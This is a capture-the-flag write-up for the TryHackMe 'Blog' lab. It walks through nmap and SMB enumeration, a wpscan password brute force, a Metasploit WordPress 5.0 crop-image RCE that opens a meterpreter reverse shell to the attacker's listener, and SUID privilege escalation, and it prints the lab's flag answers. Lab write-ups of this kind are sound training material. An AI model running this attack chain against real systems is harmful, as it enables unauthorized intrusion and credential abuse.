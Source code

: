 # Blog

Blog - Linux - Medium

https://tryhackme.com/room/blog

Nmap scan

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-01 16:30 IST
Nmap scan report for 10.10.241.16
Host is up (0.15s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 578ada90baed3a470c05a3f7a80a8d78 (RSA)
|   256 c264efabb19a1c87587c4bd50f204626 (ECDSA)
|_  256 5af26292118ead8a9b23822dad53bc16 (ED25519)
80/tcp  open  http        Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: WordPress 5.0
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-robots.txt: 1 disallowed entry 
|_/wp-admin/
|_http-title: Billy Joel&#039;s IT Blog &#8211; The IT blog
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: BLOG; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: -5h29m57s, deviation: 0s, median: -5h29m57s
| smb2-time: 
|   date: 2023-06-01T05:31:18
|_  start_date: N/A
|_nbstat: NetBIOS name: BLOG, NetBIOS user: <unknown>, NetBIOS MAC: 000000000000 (Xerox)
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: blog
|   NetBIOS computer name: BLOG\x00
|   Domain name: \x00
|   FQDN: blog
|_  System time: 2023-06-01T05:31:18+00:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 42.85 seconds
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


There is samba service, let's see what is inside it


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
┌─[user@parrot]─[~/Desktop/hacking/tryhackme/blog]
└──╼ $smbclient //10.10.241.16/BillySMB
Password for [WORKGROUP\user]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue May 26 23:47:05 2020
  ..                                  D        0  Tue May 26 23:28:23 2020
  Alice-White-Rabbit.jpg              N    33378  Tue May 26 23:47:01 2020
  tswift.mp4                          N  1236733  Tue May 26 23:43:45 2020
  check-this.png                      N     3082  Tue May 26 23:43:43 2020

		15413192 blocks of size 1024. 9788760 blocks available
smb: \> get check-this.png 
getting file \check-this.png of size 3082 as check-this.png (3.4 KiloBytes/sec) (average 3.4 KiloBytes/sec)
smb: \> get tswift.mp4 
getting file \tswift.mp4 of size 1236733 as tswift.mp4 (282.8 KiloBytes/sec) (average 235.1 KiloBytes/sec)
smb: \> get Alice-White-Rabbit.jpg 
getting file \Alice-White-Rabbit.jpg of size 33378 as Alice-White-Rabbit.jpg (31.7 KiloBytes/sec) (average 201.3 KiloBytes/sec)
smb: \> 

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Scan the url using wpscan and bruteforce username/password 

`wpscan --url blog.thm --passwords /usr/share/wordlists/rockyou.txt  --max-threads 50`

and we got the username and password
[SUCCESS] - kwheel / cutiepie1 

There is an epxloit for wordpress 5.0 which requires username, password, theme name in order to execute

Exploit - https://www.exploit-db.com/exploits/49512

using metasploit, we can easily exploit them


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
[msf](Jobs:0 Agents:0) exploit(multi/http/wp_crop_rce) >> show options

Module options (exploit/multi/http/wp_crop_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD   cutiepie1        yes       The WordPress password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     blog.thm         yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to the wordpress application
   THEME_DIR                   no        The WordPress theme dir name (disable theme auto-detection if provided)
   USERNAME   kwheel           yes       The WordPress username to authenticate with
   VHOST                       no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.8.95.227      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   WordPress



View the full module info with the info, or info -d command.

[msf](Jobs:0 Agents:0) exploit(multi/http/wp_crop_rce) >> exploit

[*] Started reverse TCP handler on 10.8.95.227:4444 
[*] Authenticating with WordPress using kwheel:cutiepie1...
[+] Authenticated with WordPress
[*] Preparing payload...
[*] Uploading payload
[+] Image uploaded
[*] Including into theme
[*] Sending stage (39927 bytes) to 10.10.88.45
[*] Meterpreter session 1 opened (10.8.95.227:4444 -> 10.10.88.45:35988) at 2023-06-01 17:50:17 +0530
[*] Attempting to clean up files...

(Meterpreter 1)(/var/www/wordpress) > ls
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


use `shell` in order to switch to shell

Exploit
1. use `find / -perm -u=s -type f 2>/dev/null` to find suid binary
2. there is a checker binary, after decompiling it in ghidra we get to know that it is checking for environment variable
3. after adding env, we can execute it and it will switch to root.



~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@blog:/root# cat root.txt
cat root.txt
9a0b2b618bef9bfa7ac28c1353d9f318

root@blog:/root# find / -name user.txt
find / -name user.txt
/home/bjoel/user.txt
/media/usb/user.txt

cat /media/usb/user.txt
c8421899aae571f7af486492b71a8ab7
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~